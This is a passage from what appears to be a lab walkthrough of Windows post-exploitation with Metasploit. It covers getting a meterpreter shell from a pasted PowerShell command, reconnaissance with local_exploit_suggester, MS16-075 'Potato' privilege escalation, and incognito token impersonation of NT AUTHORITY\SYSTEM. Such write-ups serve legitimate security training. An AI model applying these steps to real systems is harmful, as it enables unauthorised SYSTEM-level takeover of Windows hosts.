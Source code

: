 ![lab](WP/004.PNG)
5. Copy paste ps command in previous shell and it will execute and we have meterpreter shell.
6. Run `getuid`, `sysinfo`, `getprivs`
7. We can `run post/multi/recon/local_exploit_suggester`

**Escalation via Potato Attacks:**
1. `background` for backgrounding meterpreter shell.
2. `use exploit/windows/local/ms16_075_reflection`
3. ![lab](WP/005.PNG)
4. `load incognito`
5. `list_tokens -u` and copy "NT AUTHORITY\SYSTEM"
6. `impersonate_token "NT AUTHORITY\SYSTEM"`
